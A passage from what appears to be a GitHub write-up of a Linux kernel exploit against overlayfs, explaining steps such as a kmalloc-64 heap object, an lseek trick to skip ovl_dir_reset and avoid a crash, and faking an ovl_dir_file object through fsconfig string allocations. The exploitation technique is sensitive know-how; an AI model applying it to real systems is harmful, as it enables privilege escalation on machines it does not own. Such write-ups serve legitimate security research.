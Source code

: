 - [exploit.c#L21](./exploit.c#L21):

```c
#define OVERLAYFS_MOUNT_POINT "/tmp/overlayfs_mountpoint"
```

- `struct ovl_dir_file` object is allocated on kmalloc-64. I chose to open the overlayfs mountpoint directly. It's ok to open other directory inside overlayfs mountpoint.

- Avoid kernel crash when trigger code execution [exploit.c#L856](./exploit.c#L856):

```c
if (lseek(ovl_fd, 1234, SEEK_SET) < 0) { // bypass the check if (!file->f_pos)
  perror("lseek");
  return false;
}
```

- Kernel check:

```c
static loff_t ovl_dir_llseek(struct file *file, loff_t offset, int origin)
{
	loff_t res;
	struct ovl_dir_file *od = file->private_data;

	inode_lock(file_inode(file));
	if (!file->f_pos)  
		ovl_dir_reset(file);
```

- Next time when the exploit trigger code execution through lseek, f_pos already set to 1234. Therefore, skip `ovl_dir_reset(file)`.

### Step7.3: Fake `ovl_dir_file` object
- Target kernel code path for overwrite primitive:

```c
SYSCALL_DEFINE5(fsconfig,
		int, fd,
		unsigned int, cmd,
		const char __user *, _key,
		const void __user *, _value,
		int, aux)
{
  ...
	struct fs_parameter param = {
		.type	= fs_value_is_undefined,
	};
  ...

  switch (cmd) {
  ...
	case FSCONFIG_SET_STRING:
		param.type = fs_value_is_string;
		param.string = strndup_user(_value, 256); // string buffer allocation happened here.
		if (IS_ERR(param.string)) {
			ret = PTR_ERR(param.string);
			goto out_key;
		}
		param.size = strlen(param.string);
		break;
  ...
  }

  ...
	switch (cmd) {
	case FSCONFIG_SET_STRING:
```